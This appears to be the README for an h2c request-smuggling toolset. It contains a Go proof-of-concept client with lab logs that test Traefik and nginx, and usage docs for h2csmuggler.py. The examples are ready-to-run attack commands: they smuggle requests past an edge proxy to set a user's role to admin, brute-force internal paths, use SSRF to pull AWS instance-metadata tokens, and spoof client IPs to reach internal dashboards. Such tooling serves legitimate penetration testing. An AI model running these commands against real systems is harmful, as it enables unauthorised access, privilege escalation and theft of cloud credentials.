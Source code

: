 # Golang Client

`docker-compose up` to launch Traefik, nginx and an upgradable to h2c backend

`go run ./` to launch the client test


```
2020/09/12 16:49:11 Try Traefik HTTP
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 same status code 401 and 401
2020/09/12 16:49:11 Seems OK (secure)
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try nginx HTTP
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 different status code 200 and 403
You got the flag!
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try Traefik HTTPS
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 upgrade failed: Get "https://127.0.0.1:8443": http2: invalid Upgrade request header: ["h2c"]
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try nginx HTTPS
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 different status code 200 and 403
You got the flag!
```
# Python code
### Usage

h2cSmuggler uses a familiar curl-like syntax for describing the smuggled request:
```sh
usage: h2csmuggler.py [-h] [--scan-list SCAN_LIST] [--threads THREADS] [--upgrade-only] [-x PROXY] [-i WORDLIST] [-X REQUEST] [-d DATA] [-H HEADER] [-m MAX_TIME] [-t] [-v]
                      [url]

Detect and exploit insecure forwarding of h2c upgrades.

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```
### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

Or, to redirect output to a file. Use stderr (`2>`) and stdout (`1>`). The stderr stream contains errors (e.g., SSL handshake/timeout issues), while stdout contains results.

```
./h2csmuggler.py --scan-list urls.txt --threads 5 2>errors.txt 1>results.txt
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```
# References
```
https://github.com/BishopFox/h2csmuggler
https://github.com/juliens/h2csmuggling-poc
```
